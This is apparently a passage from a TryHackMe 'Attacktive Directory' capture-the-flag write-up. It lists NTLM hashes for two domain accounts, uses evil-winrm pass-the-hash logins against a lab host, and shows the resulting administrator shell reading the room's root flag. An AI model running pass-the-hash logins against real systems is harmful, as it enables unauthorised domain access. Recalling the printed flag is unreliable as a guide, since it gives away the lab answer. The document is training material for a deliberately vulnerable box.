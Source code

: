
Hashes:
Administrator:0e0363213e37b94221497260b0bcb4fc
spookysec.local\a-spooks:0e0363213e37b94221497260b0bcb4fc

`evil-winrm -i 10.10.229.142 -u "Administrator" -H 0e0363213e37b94221497260b0bcb4fc`

```sh
┌──(kali㉿proxli)-[~/boxes/thm/attacktive]
└─$ evil-winrm -i 10.10.229.142 -u "Administrator" -H 0e0363213e37b94221497260b0bcb4fc

Evil-WinRM shell v3.7
Warning: Remote path completions is disabled due to ruby limitation: undefined method 'quoting_detection_proc' for module Reline                                                                                              
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                                                                                        
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..\Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls

    Directory: C:\Users\Administrator\Desktop
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         4/4/2020  11:39 AM             32 root.txt

*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
TryHackMe{4ctiveD1rectoryM4st3r}
*Evil-WinRM* PS C:\Users\Administrator\Desktop> 
```

`evil-winrm -i 10.10.229.142 -u "spookysec.local\a-spooks" -H 0e0363213e37b94221497260b0bcb4fc`

```sh
┌──(kali㉿proxli)-[~/boxes/thm/attacktive]
└─$ evil-winrm -i 10.10.229.142 -u "spookysec.local\a-spooks" -H 0e0363213e37b94221497260b0bcb4fc

Evil-WinRM shell v3.7
Warning: Remote path completions is disabled due to ruby limitation: undefined method 'quoting_detection_proc' for module Reline
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\a-spooks\Documents> 
```


